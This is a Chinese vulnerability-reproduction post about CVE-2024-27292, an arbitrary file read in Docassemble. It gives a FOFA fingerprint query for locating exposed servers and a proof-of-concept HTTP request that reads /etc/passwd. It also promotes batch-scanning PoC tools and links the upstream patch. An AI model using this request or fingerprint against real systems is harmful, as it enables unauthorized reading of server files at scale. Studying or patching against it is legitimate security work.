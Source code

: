 #  Docassemble存在任意文件读取任意文件读取漏洞CVE-2024-27292 附POC   
南风漏洞复现文库  南风漏洞复现文库   2024-07-10 23:36  
  
# Docassemble存在任意文件读取任意文件读取漏洞CVE-2024-27292 附POC  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Docassemble简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Docassemble是Jonathan Pyle个人开发者的一个免费的开源专家系统，用于指导访谈和文档组装。  
## 2.漏洞描述  
  
Docassemble是Jonathan Pyle个人开发者的一个免费的开源专家系统，用于指导访谈和文档组装。Docassemble 1.4.53至1.4.96版本存在安全漏洞，该漏洞源于允许攻击者通过操作URL获得对系统信息的未授权的访问。  
  
CVE编号:CVE-2024-27292  
  
CNNVD编号:CNNVD-202403-2105  
  
CNVD编号:  
## 3.影响版本  
  
Docassemble 1.4.53至1.4.96版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKxicNRcdluMcriaOyUqobg8LrONKQoGib09kkHibmw2yV152x9ud7dialQPg/640?wx_fmt=jpeg&from=appmsg "null")  
  
Docassemble存在任意文件读取任意文件读取漏洞  
## 4.fofa查询语句  
  
icon_hash="-575790689"  
## 5.漏洞复现  
  
漏洞链接：https://xxx.xxxx.xxxx.xxx/interview?i=/etc/passwd  
  
漏洞数据包：  
```
GET /interview?i=/etc/passwd HTTP/1.1
Host: xxx.xxx.xxx.xxx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKEiaKKebT9adsugs89S10QTwrTyickbMYCVwHq5PXRjZ71ial4mH2VSmiaA/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKRibr94HBja0Of0qcbxz3VFyKUSfW9Gd9zOVaic7vAiagHG7jo08OZC0sg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKicds2vgGG2YRjoKplGaicDxL0ib2ia9VNsPRehIlOlMZSPs0cuQmaM4Zow/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKAvozYXqd9j3cj3EKIic9hkVp7ykGARSxU65zAgVkaKOl8KtJVUwHicIQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKMagelbXTdaLyaNOghOVW6tribRoL2mDZBF0U3W35GNF0gyaFEJwNRsg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3afw1NxCZsUEVzCOwPfwMJKgenzfEaShzdAl2icj0c5OzHJw9ElKh2C9IVWB8HGSqAFAZ7yvQZug6A/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁 https://github.com/jhpyle/docassemble/commit/97f77dc486a26a22ba804765bfd7058aabd600c9  
## 8.往期回顾  
  
  
